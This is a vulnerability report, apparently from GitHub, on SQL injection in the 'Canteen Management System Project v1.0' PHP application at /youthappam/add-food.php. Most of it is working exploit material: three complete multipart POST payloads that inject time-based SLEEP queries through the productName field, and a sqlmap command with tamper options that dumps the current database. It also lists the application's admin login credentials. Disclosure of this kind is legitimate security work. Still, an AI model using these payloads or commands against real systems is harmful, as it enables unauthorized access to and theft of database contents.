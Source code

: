 # Canteen Management System Project v1.0 by mayuri_k has SQL injection
BUG_Author: YorkLee

Login account: mayuri.infospace@gmail.com/rootadmin

vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/add-food.php

Vulnerability location: /youthappam/add-food.php POST form exists time-based blind injection vulnerability

## Payload1: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(5)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(5)) The server response time is 5 seconds

![image](pic/1.png)

## Payload2: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(10)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(10)) The server response time is 10 seconds

![image](pic/2.png)

## Payload3: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(15)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(15)) The server response time is 15 seconds

![image](pic/3.png)

## Payload4: 

Store the post message in a file, and further disclose the database information through sqlmap.

![image](pic/4.png)

sqlmap cmd: ```python .\sqlmap.py -r .\header.txt --tamper=space2comment --risk 3 -current-db```

results:

![image](pic/5.png)

